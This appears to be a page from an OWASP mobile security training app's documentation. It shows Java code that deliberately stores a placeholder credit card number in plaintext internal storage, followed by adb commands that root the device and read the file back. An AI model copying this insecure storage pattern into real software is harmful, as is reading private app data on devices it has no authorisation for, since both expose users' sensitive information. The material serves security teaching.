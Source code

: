 ## OMTG-DATAST-001-INTERNALSTORAGE 

> app/src/main/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_InternalStorage.java

```
FileOutputStream fileOutputStream;
try {
	fileOutputStream = openFileOutput("test_file", 0);
} catch (FileNotFoundException e) {
	e.printStackTrace();
	fileOutputStream = null;
}
fileOutputStream.write("Credit Card Number is 1234 4321 5678 8765".getBytes());
fileOutputStream.close();
```

Exploit:

- `$ adb root`

- `$ adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/files/test_file`

```
Credit Card Number is 1234 4321 5678 8765
```

